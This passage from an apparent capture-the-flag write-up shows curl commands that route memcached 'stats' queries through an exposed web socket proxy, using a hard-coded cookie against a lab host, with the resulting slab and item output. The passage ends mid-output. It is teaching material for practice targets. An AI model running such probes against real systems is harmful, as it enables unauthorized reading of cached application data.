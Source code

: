 #### Get Item / Slab Info

Next I’ll get information about the items and memory (known as slabs). If I run this without first visiting the port 80 page, or after that information has timed out, I’ll get back nothing:

```

root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats slabs' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
STAT active_slabs 0
STAT total_malloced 0
END

root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats items' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
END

```

That’s because the cache has timed out and emptied. If I visit the port 80 site and login as admin, and run these same queries again:

```

root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats slabs' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
STAT 16:chunk_size 2904
STAT 16:chunks_per_page 361
STAT 16:total_pages 1
STAT 16:total_chunks 361
STAT 16:used_chunks 1
STAT 16:free_chunks 360
STAT 16:free_chunks_end 0
STAT 16:mem_requested 2880
STAT 16:get_hits 0
STAT 16:cmd_set 1
STAT 16:delete_hits 0
STAT 16:incr_hits 0
STAT 16:decr_hits 0
STAT 16:cas_hits 0
STAT 16:cas_badval 0
STAT 16:touch_hits 0
STAT 26:chunk_size 27120
STAT 26:chunks_per_page 38
STAT 26:total_pages 1
STAT 26:total_chunks 38
STAT 26:used_chunks 1
STAT 26:free_chunks 37
STAT 26:free_chunks_end 0
STAT 26:mem_requested 24699
STAT 26:get_hits 0
STAT 26:cmd_set 1
STAT 26:delete_hits 0
STAT 26:incr_hits 0
STAT 26:decr_hits 0
STAT 26:cas_hits 0
STAT 26:cas_badval 0
STAT 26:touch_hits 0
STAT active_slabs 2
STAT total_malloced 2078904
END

root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats items' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
STAT items:16:number 1
STAT items:16:age 11
```